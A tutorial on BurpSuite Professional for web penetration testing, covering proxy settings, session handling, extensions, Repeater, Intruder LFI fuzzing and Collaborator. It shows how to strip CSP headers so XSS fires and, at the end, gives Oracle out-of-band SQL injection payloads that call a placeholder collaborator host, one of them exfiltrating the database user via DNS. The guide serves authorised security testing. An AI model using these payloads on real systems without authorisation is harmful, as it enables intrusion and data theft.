



# BurpSuite 101

Note: BurpSuite UI and Settings may change according to the version upgrade. This guideline uses BurpSuite Professional v2023.7.3

This guideline does not cover every aspect of BurpSuite Professional, just the one that is relevant.

## Getting Started <a href="#bkmrk-getting-started" id="bkmrk-getting-started"></a>

When a new project is created, this is the first page that is shown to user

<figure><figcaption></figcaption></figure>

***

## Settings <a href="#bkmrk-settings" id="bkmrk-settings"></a>

Before we do anything fancy, we will have to customize some settings for our project. Go to Settings at the Top-Right corner of the window.

<figure><figcaption></figcaption></figure>

This will open up a Settings window.

<figure><figcaption></figcaption></figure>

### **Tools -> Proxy**

#### **Proxy Listener**

In the Proxy page, we can set the Burp listener. By default Burp listen on [http://127.0.0.1:8080](http://127.0.0.1:8080). However, we can change this value to something else according to our need. Let's say if we want to add a listener on our Windows host machine along with our Kali VM, since port 8080 is used, we can make it listen on 8082 instead.

To add a new listener, click on "Add" and this will open up another window called "Add a new proxy listener". Insert the desired port number and host, in our case, 8082 and our VM's IP. We can also choose to listen on All interfaces if we don't want to select specific address.

<figure><figcaption></figcaption></figure>

Click on OK and a new proxy listener has been added.

<figure><figcaption></figcaption></figure>

#### **Match and replace rules**

This is a very useful settings when we need to replace any parts of the requests or responses without going through the hassle of modifying every single traffic manually.

The most common selected item is to select both " Require non-cached response". Sometimes, the browser will cache previous response that we had received from the server and return a status code 304 Not Modified to us, with this 304 status code, we are unable to see the response content in action. Ticking these will force the server to generate a new response for each of our request.

<figure><figcaption></figcaption></figure>

Additionally, there are other use case for the Match and replace rules such as when a web application has CSP (Content Security Policy) header enforced, we can use this rule to remove the CSP header and trigger any potential XSS. For example:

We has found a potential XSS in the target application.


However, when we view this in the browser, a popup is not shown. We look into the "Console" tab of developer options (F12) and saw this:


It says that the CSP header has blocked the XSS payload alert(1) that we injected. When we look at the response header, we can see the CSP is being enforced.


We can remove this CSP header manually from the response or easier, let's just replace it. Click on the Add button on the Match and replace rules settings and fill in the rules as below. We leave the "Replace" empty because we want to remove the header and not replace it with something else.


When we revisit the URL, we can see the response is automatically modified and the CSP header is removed.



We can now see the pop up shown in browser.

<figure><figcaption></figcaption></figure>

***

### **Project -> Scope**

#### **Target scope**

This is the place where we can define our target scope. Technically, you can still conduct the assessment without adding URL to the scope list, especially when the target is small. However, many of the Burp's functionality relies on in-scope item. Therefore, adding the target scope is a good habit to pick up.

If we have just one URL, we can use the "Paste URL" button and paste the target URL directly from our clipboard. But when there is a huge list of URLs, it is easier to use the "Load" button and load the target URL from a file.

<figure><figcaption></figcaption></figure>

Do note that the URL you enter here is very sensitive therefore entering [https://192.168.148.137:5000](https://192.168.148.137:5000) will only include the https site in scope. If a specific endpoint is entered such as [https://192.168.148.137:5000/network](https://192.168.148.137:5000/network) then the in scope definition will only start from that /network endpoint and anything before the /network endpoint is considered not in scope.

The in scope and exclude from scope is pretty self explanatory so I will just leave it up to here.

***

### **Sessions**

#### **Session handling rules**

The way Burp handle sessions is very interesting. Burp has a what they called "Cookie Jar" to store all of the session cookie from the target URLs that was passed through the proxy. That means that when a login to a website, a cookie is assigned to us and burp will put that cookie into its Cookie Jar. When we logout AND login again, the application server will supposedly assign us with a new cookie, and Burp will update the new cookie with the existing one in its cookie jar.

When we are in the middle of Active Scanning a site, and our session has timed out, we will need to login again through our browser to update the session cookie. If we did not, the active scan requests will all redirect to the login page, thus making the scanning result invalid.

If a web application timed out a session every 5 minutes, we will have to log in to the application every time it timed out. Which is too much of a hassle to do manually. In order to do this automatically, we can create a new Session handling rules. To do so, click on the Add button and this will open up a Session handling rule editor.

<figure><figcaption></figcaption></figure>

The "Rule description" can be anything, what we need to focus on is the "Rule actions". Click on "Add" button again and select "Check session is valid".

<figure><figcaption></figcaption></figure>

This will open up yet another new window called "Session handling action editor".

<figure><figcaption></figcaption></figure>

What we will need to modify is the "Location(s):" and "Look for expression:" options. This depends on each application and how they handle invalid sessions. Some web application will do a 302 redirection to login page, some will shows an error page stating the session is invalid, and etc... The example screenshot used below are specific to the sample application I am using only. Please modify the value based on actual scenario.

To check what exactly should we input, lets go back to the "Proxy history" tab and see how the application behave when we are accessing a page without a valid session cookie.

<figure><figcaption></figcaption></figure>

In our case, when we try to access to the /network page without a valid session, the application will do a redirection to the /login page. Therefore, we can modify the Session handling rule as below.

<figure><figcaption></figcaption></figure>

Next, scroll down and we can see an options that allow us to define the behavior if the session is invalid

<figure><figcaption></figcaption></figure>

Tick the option "If session is invalid, perform the action below:" and let us add a macro to reinitialize our session. This will open up two window, the "Macro Editor" and "Macro Recorder".

<figure><figcaption></figcaption></figure>

In the "Macro Recorder", find and select our login request for the application and click on "OK".

<figure><figcaption></figcaption></figure>

After that, you will see the selected request being added to the "Macro Editor". If you selected the wrong request by mistake, just click on "Re-record macro" on the bottom right to re-select the request.

We can see in the "Cookies received" column is "session", which is exactly the cookie we wanted to update automatically. This can be anything else depending on what the web application named their cookie.

<figure><figcaption></figcaption></figure>

Once we made sure everything is correct, click on the OK button and we will go back to our "Session handling action editor" window. In our example scenario, we can leave all these options as default, but please customize it based on the actual scenario. Once everything is done configured, click on OK again to save the rule.

<figure><figcaption></figcaption></figure>

We can see the Check session is valid rule has been created, now lets move on the the "Scope" tab.

<figure><figcaption></figcaption></figure>

Tick the Extensions option in the Tools scope menu since most of the active scan relies on extension and we don't want to miss those. You can also tick "Proxy" if you know what you are doing. Then, since we have defined our scope earlier, we can just select "Use suite scope" options in the URL scope. Or if you haven't do so, it is now time to set the scope.

<figure><figcaption></figcaption></figure>

Click on OK once everything is done. We can now run our active scan. If you are not sure whether the rule is setup properly, you can select "Open sessions tracer" while active scan is running to see the macro running on action.

<figure><figcaption></figcaption></figure>

You can see each of the requests burp is sending to the server and what is the session status. For example, in the screenshot below, when burp detect a redirection to the /login page, it recognize that this session is invalid.

<figure><figcaption></figcaption></figure>

Therefore, it will run the Macro that we have created earlier to fetch a new session cookie before resending the original request.

<figure><figcaption></figcaption></figure>

Due to the large amount of memory consumed, pause the active scan when you are checking on the validation rules and close this Session handling tracer window once you make sure everything is set up nicely. Else, you will risk having your Burp hanging.

It may take a few edits on the rule to make sure the session is being handled correctly, just make changes and check on the Session tracer windows. Rerun active scan request if needed.


Do note that the above explanation only works on normal request and response authentication. If the web server uses header authorization such as Basic, Digest, JWT etc... You will need to use additional Burp extension like the "Add Custom Header" along with the session handling rules.


***

### **User Interface**

#### **Display**

If you had bad eyesight like me (=.=) you can set the Font size of the Burp Suite interface to a larger font. But be careful with this option since it has an extremely large chance of making your Burp hangs. You can also select the Theme you prefer on this page.

<figure><figcaption></figcaption></figure>

***

### **Everything Else**

Burp has a vast variety of settings that you can set to make your life easier. Do explore the settings and play with it when you are free. It will make your assessment process so much easier.

***

## Extensions <a href="#bkmrk-extensions" id="bkmrk-extensions"></a>

Now that we have our settings configured, lets import some extensions. Go to the "Extensions" tab and the "BAppStore" tab to download some interesting and useful extensions.

<figure><figcaption></figcaption></figure>

Here is a list of some most commonly use extensions:

* Active Scan++
* Add Custom header (For web application that do authorization in request header instead of login page)
* Additional Scanner Check
* Autorize (Authentication checks)
* Backslash Powered Scanner
* CMS Scanner
* CO2 (Darn useful to generate SQLMap payload)
* Error Message Checks
* Flow (Though it consume too much resources, I'd rather use the built in Logger)
* Header Analyzer
* J2EEScan (To check for outdated Apache Tomcat version)
* Retire.js (To check for outdated JavaScripts)
* Wsdler (To import .wsdl API endpoints)

To install an extension, just select it from the BApp Store extensions list, scroll down and click on the "Install" button on the bottom right.

<figure><figcaption></figcaption></figure>

All installed extensions are listed in the Installed tab. You can load and unload extension based on the application needs. For example, your target web application does not use header authorization, then just unload the "Add Custom Header" extension to free up resources. Too many loaded extension can cause Burp to hang.

<figure><figcaption></figcaption></figure>

***

## Proxy <a href="#bkmrk-proxy" id="bkmrk-proxy"></a>

Now that we have configure the settings and loaded the necessary extensions, its time to do some ground work. Visit the target scope URL and click on all of the navigation in the web application.

### **Intercept**

In the Intercept tab, we can turn the proxy intercept on or off. Intercept if off does not means traffic routed through Burp proxy are not being logged. all traffic passing through the proxy will still be shown in the HTTP history tab.

When the Intercept is turned on, burp will capture the traffic routed to burp and hold them until an action is taken. You can also edit the response before forwarding it back to the application server.

<figure><figcaption></figcaption></figure>

There are a few actions we can do to the captured request. Here I have listed some of the most commonly used action:

* Do active scan
* Send to Intruder (Ctrl + I)
* Send to Repeater (Crtl + R)
* Do intercept -> Response to this request

To trigger these action, just Right Click on the request and a context menu will show. Select the desired action accordingly.

<figure><figcaption></figcaption></figure>

We can intercept a request's response by selecting the Do intercept -> Response to this request. Nothing will happen yet after we click it, we will need to hit the Forward button at top left to send the request first. If you  left Intercept on for too long, you may have multiple request queuing before you can see the response. After forwarding all the requests, we can see the response being shown and it is also editable.

<figure><figcaption></figcaption></figure>

Intercepting response is usually only used to remove security headers or any security mechanism in place. It can also be used to edit the HTML response such as enabling disabled form field.

Intercepting on is useful when you want to capture a specific request. However, if you are testing a web application, it is more common to turn intercept off and just route all traffic into Burp without having to click forward for each and every requests.

***

### **HTTP history**

All traffic routed through the proxy will be displayed in the Proxy "HTTP history" tab.

In this tab, we can filter the traffic that we want to see by clicking on the filter section.

<figure><figcaption></figcaption></figure>

This will open up a "Filter settings" window. We can select which filter we want to apply and in our scenario, we will filter the request to show only-in-scope items. And for now, we will also hide all file extension ending with "js,gif,jpg,png,css". You can customize these settings based on your need, this is just an example use case scenario.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Sorting the requests by number is also a convenient way to see the latest requests coming in at the top. It is useful when you have let's say thousands of requests to go through.

By clicking on each request, you can see the request and response at the bottom of the Burp window. Just like in the intercept tab, you can right click to perform any desired action.

<figure><figcaption></figcaption></figure>

***

## Repeater <a href="#bkmrk-repeater" id="bkmrk-repeater"></a>

The repeater tab is used to send repeatedly send a request to the server. When we locked down a request that we wanted to test on the Proxy tab, we can choose to edit the request directly through Proxy interception or send the request to repeater.

### **Example use case**

If we wanted to test for SQL injection in the login request, we can send the login request to repeater. Then in the repeater tab, we can edit the request by adding SQL injection payload into the username field.

In the example below, a single quote is added at the category parameter and the server response us with 500 Internal Server Error.

<figure><figcaption></figcaption></figure>

We then proceed to insert 2 single quotes into the parameter and we can see the server is responding normally.

<figure><figcaption></figcaption></figure>

This behaviour is very suspicious and has a very high possibility of SQL injection. You may continue with the testing by doing it manually in the repeater, send it to Active Scan or send it to the CO2 extension to generate an SQLMap payload.\


***

## Intruder <a href="#bkmrk-intruder" id="bkmrk-intruder"></a>

The Intruder is a very useful functionality that allow us to automate sending specific payload in specific injection point.

### **Example use case: Directory Traversal (LFI)**

Supposely we saw a HTTP request that looks like this when we are conducting a web application PT.

<figure><figcaption></figcaption></figure>

With a filename parameter that calls on a file content, this looks like a request that is prone to LFI if input validation is not implemented properly. To test this, of course we can just do Active Scan and wait for result, but we can also use the Intruder for this. Right click and send the request to Intruder then visit the Intruder tab.

<figure><figcaption></figcaption></figure>

You will now see something like this. Then we select the place where we wanted to inject our payload, the "filename" parameter in this case. Since there is already actual value there, we can just highlight the 57.jpg and click on the "Add" button on the right. If the 57.jpg is not present, then just click at the end of the "filename" parameter and click "Add" button twice. The result should look like this.

<figure><figcaption></figcaption></figure>

Then moving on to the "Payloads" tab. Here we can define the payload we wanted to use. Since we will be testing 1 parameter, which is the filename parameter against LFI, we will leave the Payload set as "1" and Payload type as "Simple List". Then click on "Load" at the Payload Settings to load the LFI payload. We are using the "LFI-Jhaddix.txt" wordlist by secLists in this case. Once everything is set up, click on the "Start attack" button to run the Intruder.

<figure><figcaption></figcaption></figure>

Once we started the Intruder attack, a new window will open up showing us the result of the attack. We can sort the requests by "Status Code" to see successful attack. The attack result will be gone when we close this Intruder attack window, so make sure to Save the result to Project File before closing.

<figure><figcaption></figcaption></figure>


Alternatively, we can also extract information from the response into the results table by going to the "Settings" tab and scroll down to "Grep - Extract" section. This is a useful settings to capture screenshot for reporting PoC.


***

## Collaborator <a href="#bkmrk-c2-a0-0" id="bkmrk-c2-a0-0"></a>

Burp collaborator is only available on the Professional version. It is useful to test for DNS interaction received from the web application server.

### **Example use case: Out-of-Band SQL Injection (OOB SQLi)**

When we identified a OOB SQLi vulnerability on the application, we can use the Burp Collaborator to verify and extract database information.

Firstly, the payload that we will use in this use-case scenario is:

```sql
x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

Then we need to replace [http://BURP-COLLABORATOR/](http://burp-collaborator/) with our Collaborator address. We can get the address from the Collaborator tab.

<figure><figcaption></figcaption></figure>

Our final request will look like this:

<figure><figcaption></figcaption></figure>

After sending the request, we can see Collaborator has received a few DNS interactions.

<figure><figcaption></figcaption></figure>

To extract data from the database, we can use this payload:

```sql
x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT user FROM dual)||'.BURP-COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

The '||(SELECT user FROM dual)||' part of the payload will be appended to the collaborator address, hence leaking the database user to the collaborator.

After sending the request, we can see in the Collaborator tab that we have received a DNS lookup along with the database username.

<figure><figcaption></figcaption></figure>
